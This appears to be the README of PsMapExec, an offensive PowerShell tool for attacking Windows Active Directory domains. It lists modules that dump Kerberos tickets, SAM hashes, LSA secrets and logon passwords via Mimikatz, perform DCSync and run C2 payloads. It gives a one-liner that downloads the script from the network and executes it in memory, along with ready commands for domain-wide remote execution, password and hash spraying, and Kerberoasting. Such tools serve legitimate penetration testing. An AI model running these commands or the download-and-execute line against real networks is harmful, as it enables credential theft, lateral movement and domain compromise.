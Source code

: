 | Module           | Description                                      |
|------------------|--------------------------------------------------|
| <a href="https://viperone.gitbook.io/pentest-everything/psmapexec/modules/amnesiac" target="_blank">Amnesiac</a> | Executes Amnesiac C2 payloads |
| <a href="https://viperone.gitbook.io/pentest-everything/psmapexec/modules/consolehistory" target="_blank">ConsoleHistory</a> | Dumps PowerShell console history |
| <a href="https://viperone.gitbook.io/pentest-everything/psmapexec/modules/files" target="_blank">Files</a> | Lists files in common directories for each user |
| <a href="https://viperone.gitbook.io/pentest-everything/psmapexec/modules/kerbdump" target="_blank">KerbDump</a> | Dumps Kerberos tickets |
| <a href="https://viperone.gitbook.io/pentest-everything/psmapexec/modules/ekeys" target="_blank">eKeys</a> | Dumps encryption keys from memory (Mimikatz) |
| <a href="https://viperone.gitbook.io/pentest-everything/psmapexec/modules/logonpasswords" target="_blank">LogonPasswords</a> | Dumps logon passwords from memory (Mimikatz) |
| <a href="https://viperone.gitbook.io/pentest-everything/psmapexec/modules/lsa" target="_blank">LSA</a> | Dumps LSA (Mimikatz) |
| <a href="https://viperone.gitbook.io/pentest-everything/psmapexec/modules/ntds" target="_blank">NTDS</a> | Executes DCsync on the remote system |
| <a href="https://viperone.gitbook.io/pentest-everything/psmapexec/modules/sam" target="_blank">SAM</a> | Dumps SAM hashes |
| <a href="https://viperone.gitbook.io/pentest-everything/psmapexec/modules/sccm" target="_blank">SCCM</a> | Dumps NAA credentials and task sequences |




  
## Usage
### Load the script directly into memory
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```
### Quick examples
```bash
# Execute WMI commands over all systems in the domain using password authentication
 PsMapExec -Targets all -Method WMI -Username Admin -Password Pass -Command whoami

# Execute WinRM commands over all systems in the domain using hash authentication
PsMapExec -Targets all -Method WinRM -Username Admin -Hash [Hash] -Command whoami

# Check RDP Access against workstations in the domain and using local authentication
PsMapExec -Targets Workstations -Method RDP -Username LocalAdmin -Password Pass -LocalAuth
 
# Dump SAM on a single system using SMB and a -ticket for authentication
PsMapExec -Targets DC01.Security.local -Method SMB -Ticket [Base64-Ticket] -Module SAM

# Check SMB Signing on all domain systems
PsMapExec -Targets All -Method GenRelayList

# Dump LogonPasswords on all Domain Controllers over WinRM
PsMapExec -Targets DCs -Method WinRM -Username Admin -Password Pass -Module LogonPasswords

# Use WMI to check current user admin access from systems read from a text file
PsMapExec -Targets C:\temp\Systems.txt -Method WMI

# Spray passwords across all accounts in the domain
PsMapExec -Method Spray -SprayPassword [Password]

# Spray Hashes across all accounts in the domain that have AdminCount=1
PsMapExec -Targets "AdminCount=1" -Method Spray -SprayHash [Hash]

# Spray Hashes across all Domain Admin group users
PsMapExec -Targets "Domain Admins" -Method Spray -SprayHash [Hash]

# Kerberoast 
PsMapExec -Method Kerberoast -ShowOutput
```
